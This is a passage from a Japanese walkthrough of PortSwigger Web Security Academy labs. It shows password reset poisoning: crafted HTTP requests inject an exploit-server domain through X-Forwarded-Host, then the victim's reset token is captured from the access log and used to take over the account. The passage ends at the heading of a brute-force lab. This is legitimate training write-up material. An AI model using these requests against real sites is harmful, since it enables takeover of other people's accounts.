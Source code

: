 temp-forgoto-password-tokengがユーザ名と紐づいている感じでしょう。

つまりtokenだけ取得しておけば勝利できそうです。

### exploit

それではLabをクリアしていきましょう。

1. password reset requestを送信し、burpなりでキャプチャし、X-Forwarded-Hostにexploit serverのドメインを指定し、usernameに被害者アカウントを指定する
    
    ```
    POST /forgot-password HTTP/2
    Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
    Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
    <redacted>
    X-Forwarded-Host: exploit-0a19008f03b9e2b9805548a201f4006b.exploit-server.net
    
    username=carlos
    ```
    
2. このラボの前提条件でcarlosは送られてきたリンクを踏むとあるため、アクセスログを確認し、temp-forgot-password-tokenを取得する。
    
    ```
    	10.0.3.226      2023-09-30 08:57:19 +0000 "GET /forgot-password?temp-forgot-password-token=wltfo37ttocg4mif3ca9xf4ma6j971sb HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
    ```
    
3. 取得したtokenを使ってpassword reset requestを送信する
    
    ```
    POST /forgot-password?temp-forgot-password-token=wltfo37ttocg4mif3ca9xf4ma6j971sb HTTP/2
    Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
    Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
    <redacted>
    
    temp-forgot-password-token=wltfo37ttocg4mif3ca9xf4ma6j971sb&new-password-1=password&new-password-2=password
    ```
    
4. carlos, 先ほど指定したpasswordで被害者アカウントにアクセスをする

## ****Password brute-force via password change****

---

```
my credentials > wiener:peter
victim user > carlos
```

### Analyze

> This lab's password change functionality makes it vulnerable to brute-force attacks.
> 
